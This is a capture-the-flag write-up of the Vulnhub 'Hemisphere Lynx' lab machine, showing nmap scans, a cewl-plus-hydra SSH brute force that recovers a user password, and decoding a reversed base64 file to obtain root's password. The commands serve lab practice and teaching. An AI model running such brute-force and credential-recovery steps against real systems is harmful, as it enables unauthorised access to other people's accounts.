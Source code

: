```yaml
---
title: Vulnhub - Hemisphere Lynx
description: My writeup on Hemisphere Lynx box.
categories:
 - vulnhub
tags: vulnhub cewl hydra ssh base64
---
```


![](https://i.imgur.com/Dayq2fI.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Hemisphere Lynx**  | 
| Series :      | **Hemisphere**         |
| Difficulty :  | **Easy**             |   
| Release Date :| **1 Oct 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [d4t4s3c](https://github.com/d4t4s3c){:target="_blank"}     | 
| Download :    | [Hemisphere Lynx](https://www.vulnhub.com/entry/hemisphere-lynx,577/){:target="_blank"}      | 

## Summary

This was a really easy box, pretty basic stuff perfect to pass your time. We generate a custom wordlist with cewl and we run a brute force attack on ssh this way we get the user flag. Root is simply a base64 decoding. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.101                                                                                                                                                               130 ↵
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00041s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:8F:D2:91 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00047s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 26:21:06:43:f3:27:b0:2f:df:eb:37:c0:26:d7:58:2a (RSA)
|   256 cd:a2:e4:63:31:78:79:a1:56:1d:1d:bd:85:ee:6b:fb (ECDSA)
|_  256 dd:bc:7e:1d:a3:ad:ff:aa:1a:3f:d3:68:a4:42:ea:1b (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title:  Lynx 
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
```
 
Let's start the enumeration with port 80, i don't understand the language of the text but the box desc says "Brute Forze" so we can simply generate a custom wordlist with `cewl` and run a brute force on SSH.

## Shell as johannes

```
$ cewl http://$ip/ | tee wordlist.txt
```

```
$ hydra -L wordlist.txt -P wordlist.txt $ip ssh

[DATA] max 16 tasks per 1 server, overall 16 tasks, 2601 login tries (l:51/p:51), ~163 tries per task
[DATA] attacking ssh://192.168.1.101:22/
[STATUS] 312.00 tries/min, 312 tries in 00:01h, 2291 to do in 00:08h, 16 active
[22][ssh] host: 192.168.1.101   login: johannes   password: constelaciones
```

```
$ ssh johannes@$ip                                                                                                                                                               255 ↵
johannes@192.168.1.101's password: 

johannes@Lynx:~$ whoami;id
johannes
uid=1000(johannes) gid=1000(johannes) grupos=1000(johannes),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Under `/Desktop` we can see a hidden creds file:

```
johannes@Lynx:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 root     root     4096 oct  1 13:39 .
drwxr-xr-x 10 johannes johannes 4096 oct  1 21:46 ..
-rw-r--r--  1 root     root       37 oct  1 13:39 .creds
```

It contains a base64 string, let's decode it:

```
johannes@Lynx:~/Desktop$ cat .creds 
MjBLbDdpUzFLQ2FuaU84RFdNemg6dG9vcg==
johannes@Lynx:~/Desktop$ cat .creds | base64 -d
20Kl7iS1KCaniO8DWMzh:toor
```

Seems like reversed, let's reverse it.

```
johannes@Lynx:~/Desktop$ cat .creds | base64 -d | rev
root:hzMWD8OinaCK1Si7lK02
```

Now we can simply switch to user root:

```
johannes@Lynx:~/Desktop$ su - root
Contraseña: 
root@Lynx:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

## Reading the flag(s)

```
root@Lynx:~# cat /root/root.txt 
4xKWoV6QGHTetItzD7mI
root@Lynx:~# cat /home/johannes/user.txt 
uZ8iARX2aiDV1bNz7Dx4
```

One of the BEST vulnhub boxes i ever did.

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:

